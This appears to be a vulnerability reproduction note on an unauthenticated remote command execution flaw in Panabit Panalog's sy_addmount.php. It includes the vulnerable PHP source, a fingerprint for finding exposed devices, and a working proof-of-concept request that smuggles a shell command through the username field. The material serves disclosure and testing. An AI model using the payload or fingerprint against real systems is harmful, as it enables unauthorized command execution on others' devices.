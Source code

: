 # Panabit Panalog sy_addmount.php Remote command execution vulnerability

## Vulnerability Description

Panabit Panalog sy_addmount.php is insufficient filtering, resulting in remote command execution vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panabit Panalog</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="Maintain/cloud_index.php"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628866447890-ec66a2c3-2dab-4500-a9a8-a68823931f3c.png)

The code with vulnerability is **account/sy_addmount.php**

```bash
<?php

include(dirname(__FILE__)."/../common.php");

$username = isset($_REQUEST["username"]) ? $_REQUEST["username"] : "";
if (empty($username)) {
	echo '{"success":"no", "out":"NO_USER"}';
	exit;
}

$username = addslashes($username);

$rows = array();

$cmd = PANALOGEYE." behavior add account=$username";
exec($cmd, $out, $ret);
echo $out[0];
exit;
```

There is no authentication of the identity, and the username is controllable, so the POC is constructed

```bash
POST /account/sy_addmount.php

username=|id
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1678237279001-8e9ce97e-d0d5-44c0-b2b1-e1e9550c6e3a.png)